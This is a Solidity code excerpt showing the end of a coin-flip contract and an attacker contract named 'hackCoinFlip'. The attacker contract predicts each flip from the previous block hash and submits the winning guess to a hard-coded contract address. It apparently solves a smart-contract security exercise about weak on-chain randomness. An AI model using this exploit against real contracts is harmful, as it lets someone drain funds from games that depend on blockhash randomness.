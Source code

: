 ```solidity
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}

contract hackCoinFlip {
    struct Coinflip {
        address originalContract;
    }

    CoinFlip public originalContract =
        CoinFlip(0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF);
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // use this function if you want to manually enter the value true or false
    // function hackFlip(bool _guess) public {

    //     // pre-deteremine the flip outcome
    //     uint256 blockValue = uint256(blockhash(block.number - 1));
    //     uint256 coinFlip = blockValue / FACTOR;
    //     bool side = coinFlip == 1 ? true : false;

    //     // If I guessed correctly, submit my guess
    //     if (side == _guess) {
    //         originalContract.flip(_guess);
    //     } else {
    //         // If I guess incorrectly, submit the opposite
    //         originalContract.flip(!_guess);
    //     }
    // }

    //else use this function to automaticaly pass what getBool is finding
    function hackFlip() public {
        originalContract.flip(getBool());
    }

    function getBool() public view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }
}
```
